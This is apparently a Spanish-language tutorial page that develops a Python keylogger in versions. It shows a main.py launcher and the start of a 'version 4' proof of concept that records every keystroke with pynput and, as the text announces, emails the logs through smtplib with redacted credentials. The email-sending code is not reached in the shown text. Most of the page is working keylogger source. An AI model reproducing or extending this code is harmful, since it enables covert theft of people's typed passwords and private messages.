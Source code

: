 ```python
```

**Archivo:** `main.py`

```python
#!/usr/bin/env python3
from keylogger_v3 import Keylogger
from termcolor import colored
import signal, sys

def def_handler(sig, frame):
    print(colored(f"\n[!] Saliendo...\n", 'red'))
    my_keylogger.shutdown()
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
    my_keylogger = Keylogger()
    my_keylogger.start()
```

### Aporta

- Control del temporizador (`self.timer`).
    
- Método `shutdown()` que cancela ejecución limpia.
    
- Integración con `SIGINT` (Ctrl+C).
    

---

## 4) Versión 4 — Envío de logs por email (PoC completo)

**Archivo:** `keylogger_v4.py`

> **Nota:** se han **redactado datos sensibles** (email y contraseña de aplicación). [Ver Cómo obtener una contraseña de aplicación](./C%C3%B3mo%20obtener%20una%20contrase%C3%B1a%20de%20aplicaci%C3%B3n.md)

**Nota:** [Recurso donde ampliar información sobre el uso de smtplib](https://mailtrap.io/es/blog/python-send-email-gmail/)

```python
#!/usr/bin/env python3
import pynput.keyboard
import threading
import smtplib
from email.mime.text import MIMEText

class Keylogger:
    def __init__(self):
        self.log = ""
        self.request_shutdown = False
        self.timer = None
        self.is_first_run = True

    def pressed_key(self, key):
        try:
            self.log += str(key.char)
        except AttributeError:
            special_keys = {key.space: " ", key.backspace: " Backspace ", key.enter: " Enter ", key.shift: " Shift ", key.ctrl: " Ctrl ", key.alt: " Alt "}
            self.log += special_keys.get(key, f" {str(key)} ")
        print(self.log)

```